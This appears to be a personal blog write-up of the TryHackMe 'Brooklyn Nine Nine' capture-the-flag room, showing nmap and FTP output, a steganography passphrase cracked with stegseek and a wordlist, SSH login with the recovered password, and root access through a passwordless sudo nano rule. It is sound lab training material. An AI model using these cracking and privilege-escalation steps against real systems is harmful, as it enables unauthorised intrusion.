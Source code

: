 ```yaml
---
layout: post
current: post
cover: 'assets/images/brooklynninenine/cover.png'
navigation: True
title: "Brooklyn Nine Nine Write Up"
date: 2021-01-01 00:00:00
tags: [tryhackme, ctf, easy]
class: post-template
subclass: 'post'
author: darryn
---
```

![brooklynninenine](/assets/images/brooklynninenine/cover.png)

### Overview

[Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine) is a easy room on [TryHackMe](https://tryhackme.com) by Fsociety2006. 

### Nmap

I deployed the machine and was given the target IP 10.10.130.161. I started a NMAP scan to check the available ports. 

```highlight
└──╼ $sudo nmap -sC -sV -oN initial 10.10.130.161
[sudo] password for daz: 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-01 14:26 GMT
Nmap scan report for 10.10.130.161
Host is up (0.070s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.74 seconds
```

3 Ports open:

- 21 - FTP - Anonymous log in allowed with a note
- 22 - SSH - Banner is showing its an Ubuntu machine
- 80 - HTTP - Apache web server version 2.4.29

I also ran a full port scan but no additional ports were found.

### Enumeration

As the FTP service allows anonymous access I started by logging in with the username 'anonymous' and the password 'anonymous'.

```highlight
└──╼ $ftp 10.10.130.161
Connected to 10.10.130.161.
220 (vsFTPd 3.0.3)
Name (10.10.130.161:daz): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.03 secs (4.3601 kB/s)
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> 
```

I downloaded the note_to_jake.txt file but couldn't find anything else. The note reads:
>
>From Amy,
>
>Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
>

The note indicates a weak password being used, I moved on to port 80 and looked at the web page. 

```highlight
<!DOCTYPE html>
<html>
<head>
<meta name="viewport" content="width=device-width, initial-scale=1">
<style>
body, html {
  height: 100%;
  margin: 0;
}

.bg {
  /* The image used */
  background-image: url("brooklyn99.jpg");

  /* Full height */
  height: 100%; 

  /* Center and scale the image nicely */
  background-position: center;
  background-repeat: no-repeat;
  background-size: cover;
}
</style>
</head>
<body>

<div class="bg"></div>

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>
</html>
```

The page just displays an image of Brooklyn nine nine, however looking at the source provides a comment regarding steganography. 

### Initial Access

I downloaded the image and ran steghide however the I cant extract the data with out a password. I used [StegSeek](https://github.com/RickdeJager/stegseek) and the rockyou.txt word list to crack the password.

```highlight
└──╼ $stegseek brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegSeek version 0.5
Progress: 0.00% (0 bytes)           

[i] --> Found passphrase: "<REDACTED>"
[i] Original filename: "note.txt"
[i] Extracting to "brooklyn99.jpg.out"
┌─[daz@parrot]─[~/Documents/TryHackMe/Brooklyn99]
└──╼ $cat brooklyn99.jpg.out
Holts Password:
flu<REDACTED>

Enjoy!!
```

Great I now have some credentials. Using the credentials I can now SSH in to the machine.

```highlight
└──╼ $ssh holt@10.10.130.161
holt@10.10.130.161's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 
holt@brookly_nine_nine:~$ 
```

### Priv Esc

The privilege escalation was really simple, doing a sudo -l, all users can run /bin/nano without a password. Going to [GTFOBins](https://gtfobins.github.io) shows the steps required to abuse this and get root.

```highlight
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

Following the steps, I get a root shell.

```highlight
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
brookly_nine_nine
# cd /root
# ls
root.txt
#
```
Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

